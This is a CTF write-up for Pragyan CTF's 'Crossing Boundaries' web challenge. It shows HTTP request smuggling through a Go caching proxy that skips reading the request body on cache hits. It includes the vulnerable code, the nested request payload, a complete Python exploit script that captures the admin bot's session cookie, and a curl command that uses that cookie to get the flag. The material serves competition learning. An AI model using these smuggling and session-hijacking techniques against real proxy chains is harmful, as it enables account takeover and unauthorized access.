


# Crossing Boundaries - Pragyan CTF Web Writeup

**Category:** Web
**Difficulty:** INSANE
**Points:** 469
**Flag:** `p_ctf{#Ttp_RuN_0N_Tcp_f0ee7ec8}`
**Solved by:** Smothy @ **0xN1umb**

---

## 🩸 FIRST BLOOD 🩸


> **We drew first blood on this INSANE-rated challenge!** Out of 14 total solves, we were the first team to crack the HTTP request smuggling puzzle. The challenge author even added *"chef's kiss"* in the description - and we delivered.

---

## Challenge Description

> Welcome to Fast Proxy blog built with a caching layer to make it faster. Most of the time it works fine, but occasionally things behave... strangely. Some users report seeing unexpected errors. Others claim actions happened that they never triggered. Can you get the /flag?

A blogging platform sitting behind a multi-layer proxy chain with caching. Partial source code provided. Classic "find the desync" challenge, but with a unique twist that makes it *chef's kiss*.

## TL;DR

**🩸 FIRST BLOOD** on an INSANE-rated challenge. Go caching proxy skips `ReadRequestBody()` on cache hits via `continue` statement, leaving request body bytes in the `bufio.Reader` buffer. We abuse this to smuggle a POST request that captures the admin bot's HTTP request (including session cookie) as blog content. HTTP desync go brrr. *Chef's kiss* indeed.

## Initial Recon

First things first - download the partial source and map the architecture.



**Architecture**: Client -> Front Proxy (custom HAProxy-like) -> Go Caching Proxy -> Backend

Three services in docker-compose:
- **front_proxy** (port 3000) - Custom proxy mimicking HAProxy with `http-reuse always` and session-based connection isolation
- **proxy** - Go caching proxy with custom HTTP parsing
- **backend** - Go app with blog CRUD, admin bot, and `/flag` endpoint

The HAProxy config had a very telling comment:
```
# NOTE: http-reuse always is the key to this challenge
```

The `/flag` endpoint requires an admin session cookie. An admin bot reviews blogs after 10 seconds, sending its request through the proxy chain with `X-User-Session` for connection routing.

## Step 1: Finding the Bug

After reading the Go proxy source code, one function stood out - `HandleConn`:

```go
for {
    req, err := ReadRequestHeaders(reader)
    // ...
    cacheable := isCacheable(req)
    cacheKey := req.CacheKey()

    if cacheable {
        if exists {
            client.Write(AddCacheHeaders(cached, cacheKey, true))
            continue  // ← THE BUG: skips ReadRequestBody!
        }
    }

    body, err := ReadRequestBody(reader, req.ContentLen)  // Never reached on cache hit!
}
```

When a GET request hits a cached `/blogs/*` path, the proxy serves the cached response and `continue`s the loop **without calling `ReadRequestBody()`**. This means if the request has a `Content-Length` header with body data, those bytes remain in the `bufio.Reader` buffer and get parsed as the **next HTTP request**.

## Step 2: Confirming the Vulnerability

For the homies who haven't done HTTP smuggling before: the key is making two proxies disagree about where one request ends and another begins.

I confirmed:
1. The front proxy **does** read Content-Length body for GET requests (tested with CL=100000 + no body = timeout)
2. Public blogs at `/blogs/UUID` return 200 with `x-cache: HIT`
3. The front proxy uses connection pooling with session affinity

The critical test: sending `GET /blogs/CACHED_UUID` with `Content-Length: N` and N bytes of body containing a smuggled request.

## Step 3: The Attack Chain


The real challenge wasn't just smuggling - it was getting the flag **back to us**. The smuggled request's response goes to whoever sends the next request on that connection (the admin bot). We never directly see it.



The solution: **don't smuggle GET /flag - smuggle POST /my-blogs/create** with the admin's request data as blog content!

Here's the 200 IQ play:

1. **Smuggled POST** has `Content-Type: application/x-www-form-urlencoded` and starts its body with `content=`
2. **Content-Length** is set to 240 (8 bytes for "content=" + 232 bytes to capture from admin)
3. The Go proxy reads "content=" from our smuggled body, then **blocks** waiting for 232 more bytes
4. When admin arrives, its HTTP request bytes become the POST body
5. A blog is created with the admin's full HTTP request as content - **including the session cookie!**

## Step 4: Crafting the Payload

The nested request structure:

```
OUTER REQUEST (to front proxy):
  GET /blogs/c2e38584-480c-4397-9776-9ceabcfd4e06 HTTP/1.1
  Host: crossing-boundaries.ctf.prgy.in
  Cookie: session=OUR_SESSION
  Content-Length: 205    ← size of inner POST
  Connection: keep-alive

  INNER REQUEST (smuggled via body):
    POST /my-blogs/create HTTP/1.1
    Host: crossing-boundaries.ctf.prgy.in
    Content-Type: application/x-www-form-urlencoded
    Cookie: session=OUR_SESSION
    Content-Length: 240   ← 8 ("content=") + 232 (from admin)

    content=              ← body starts here, admin data fills the rest
```

The outer GET hits the cache -> body skipped -> inner POST parsed from buffer -> blocks waiting for body -> admin's request completes it.

## Step 5: Exploitation

```python
# Create blog + request admin review (10s timer)
s.post(f"https://{HOST}/my-blogs/create", data={"content": "bait"})
s.post(f"https://{HOST}/my-blogs/{BLOG_ID}/review")

# Build and send smuggled payload
inner_post = (
    b"POST /my-blogs/create HTTP/1.1\r\n"
    b"Host: " + HOST + b"\r\n"
    b"Content-Type: application/x-www-form-urlencoded\r\n"
    b"Cookie: session=" + SESSION + b"\r\n"
    b"Content-Length: 240\r\n\r\n"
    b"content="
)

outer_get = (
    b"GET /blogs/" + CACHED_BLOG + b" HTTP/1.1\r\n"
    b"Host: " + HOST + b"\r\n"
    b"Content-Length: " + str(len(inner_post)) + b"\r\n\r\n"
    + inner_post
)

conn = tls_conn()
conn.send(outer_get)
# Got cached response - smuggling in progress!

time.sleep(15)  # Wait for admin bot

# Check blogs for captured admin data
r = s.get(f"https://{HOST}/my-blogs")
# Found blog with admin's Cookie: session=c07243f3-...
```

## Step 6: Captured Admin Data

The blog content revealed the admin bot's complete HTTP request:

```
GET /admin/blogs/UUID HTTP/1.1
Host: web-7-front-service.default.svc.cluster.local:3000
User-Agent: AdminBot/1.0
Accept-Encoding: gzip
Cookie: session=c07243f3-13ce-459b-a170-5bc1ec7112b5   <-- JACKPOT!
X-Forwa...
```

Bonus intel: the internal hostname `web-7-front-service.default.svc.cluster.local:3000` confirms Kubernetes deployment.

## The Flag

```bash
$ curl -s https://crossing-boundaries.ctf.prgy.in/flag \
    -b "session=c07243f3-13ce-459b-a170-5bc1ec7112b5"

p_ctf{#Ttp_RuN_0N_Tcp_f0ee7ec8}
```

`#Ttp_RuN_0N_Tcp` = **HTTP Run On TCP** - the flag itself is a reference to HTTP protocol running on TCP connections, and how request boundary confusion leads to smuggling. Respect to the challenge author.

## The Solve Script

```python
#!/usr/bin/env python3
"""
Crossing Boundaries - Pragyan CTF 500
Cache-Hit Body Skip → HTTP Request Smuggling → Admin Cookie Capture
Solved by Smothy @ 0xN1umb
"""
import socket, ssl, time, re, requests, random

HOST = "crossing-boundaries.ctf.prgy.in"
PORT = 443
CACHED_BLOG = "c2e38584-480c-4397-9776-9ceabcfd4e06"

def tls_conn():
    ctx = ssl.create_default_context()
    sock = socket.create_connection((HOST, PORT), timeout=30)
    return ctx.wrap_socket(sock, server_hostname=HOST)

def recv_all(sock, timeout=5):
    sock.settimeout(timeout)
    data = b""
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk: break
            data += chunk
    except (socket.timeout, ssl.SSLError): pass
    return data

# Register + create blog + request review
s = requests.Session()
username = f"pwn{random.randint(10000, 99999)}"
s.post(f"https://{HOST}/register",
       data={"username": username, "password": "password123"},
       allow_redirects=False)
SESSION = s.cookies.get("session")

s.post(f"https://{HOST}/my-blogs/create",
       data={"content": "bait"}, allow_redirects=False)
r = s.get(f"https://{HOST}/my-blogs")
BLOG_ID = re.findall(
    r'/my-blogs/([0-9a-f-]{36})', r.text)[-1]

s.post(f"https://{HOST}/my-blogs/{BLOG_ID}/review",
       allow_redirects=False)

# Smuggle POST that captures admin's request as blog content
INNER_CL = 240
inner_post = (
    b"POST /my-blogs/create HTTP/1.1\r\n"
    b"Host: " + HOST.encode() + b"\r\n"
    b"Content-Type: application/x-www-form-urlencoded\r\n"
    b"Cookie: session=" + SESSION.encode() + b"\r\n"
    b"Content-Length: " + str(INNER_CL).encode() + b"\r\n"
    b"\r\n" + b"content="
)
outer = (
    b"GET /blogs/" + CACHED_BLOG.encode() + b" HTTP/1.1\r\n"
    b"Host: " + HOST.encode() + b"\r\n"
    b"Cookie: session=" + SESSION.encode() + b"\r\n"
    b"Content-Length: " + str(len(inner_post)).encode() + b"\r\n"
    b"Connection: keep-alive\r\n\r\n" + inner_post
)

conn = tls_conn()
conn.send(outer)
recv_all(conn, timeout=3)
conn.close()

time.sleep(15)

# Extract admin cookie from captured blog
from urllib.parse import unquote
r = s.get(f"https://{HOST}/my-blogs")
for bid in re.findall(r'/my-blogs/([0-9a-f-]{36})', r.text):
    r2 = s.get(f"https://{HOST}/my-blogs/{bid}")
    decoded = unquote(r2.text)
    cookies = re.findall(
        r'session[=:]([0-9a-f-]{36})', decoded)
    for c in cookies:
        if c != SESSION:
            r3 = requests.get(f"https://{HOST}/flag",
                            cookies={"session": c})
            print(f"FLAG: {r3.text}")
```

## The Graveyard of Failed Attempts


1. **CL-TE desync** - Go proxy rejects ALL Transfer-Encoding headers with 400. Dead end.
2. **CL-CL desync** - Tested every Content-Length parsing variation (case, whitespace, duplicates, obs-fold, hex, leading zeros). Both proxies parse identically.
3. **HTTP/2 smuggling** - H2.CL with CL:0+body causes stream reset. H2.TE gets stripped by TLS terminator.
4. **Direct GET /flag smuggling** - Works technically, but the response goes to the admin bot, not us. Spent way too long trying to desync the response queue before realizing we should capture the cookie instead.
5. **INNER_CL=200** - First successful capture truncated the admin cookie at 5 characters (`c0724`). Had to bump to 240 for full UUID.

## Key Takeaways

1. **Read the source code carefully** - The `continue` in the cache-hit path was a one-liner that created a devastating vulnerability
2. **Think beyond GET /flag** - When you can't directly read the response, capture credentials instead
3. **HTTP connection reuse is dangerous** - `http-reuse always` + shared buffers = request boundary confusion
4. **bufio.Reader retains unread data** - In Go, buffered readers persist data across reads. Skipping a read doesn't discard the data.
5. **Content-Length body on GET requests** - While unusual per RFC, most proxies honor it. This is what enables the smuggle.
6. **Timing matters** - The admin bot arrives exactly 10s after review request. The smuggled POST blocks on ReadRequestBody, keeping the connection "clean" until admin data arrives.

## Tools Used

- Python 3 with `requests` + raw `socket`/`ssl`
- Way too many test scripts (test_smuggle.py, test_cl.py, test_cl2.py, test_cl3.py, test_h2.py, test_cache_smuggle.py...)
- Way too much caffeine

---

*Writeup by **Smothy** from **0xN1umb** team.*
*When the cache skips body reading, boundaries cross themselves. GG.*
